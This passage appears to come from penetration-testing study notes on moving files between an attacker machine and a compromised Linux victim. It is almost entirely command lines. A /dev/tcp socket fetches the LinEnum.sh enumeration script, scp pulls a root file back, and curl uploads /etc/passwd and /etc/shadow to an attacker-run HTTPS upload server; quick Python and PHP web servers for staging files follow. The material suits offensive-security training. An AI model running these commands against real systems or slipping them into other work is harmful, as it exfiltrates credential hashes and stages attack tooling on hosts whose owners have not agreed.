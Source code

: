 `[!bash!] exec 3<>/dev/tcp/10.10.10.32/80`

`[!bash!] echo -e "GET /LinEnum.sh HTTP/1.1\n\n">**&3**`

`[!bash!] cat <&3`

## **SSH Downloads**

`SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

`SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

Attacker

`[!bash!] sudo systemctl enable ssh`

`[!bash!] sudo systemctl start ssh`

`[!bash!] netstat -lnpt`

**Victim**

`[!bash!] scp plaintext@192.168.49.128:/root/myroot.txt .`

# **Upload Operations**

## **Web Upload**

Attacker

`[!bash!] sudo python3 -m pip install --user uploadserver`

`[!bash!] openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`

`[!bash!] mkdir https && cd https`

`[!bash!] sudo python3 -m uploadserver 443 --server-certificate /root/server.pem`

Victim

`[!bash!] curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

## **Alternative Web File Transfer Method**

Attacker

`[!bash!] python3 -m http.server`

**OR**

`[!bash!] python2.7 -m SimpleHTTPServer`

`[!bash!] php -S 0.0.0.0:8000`
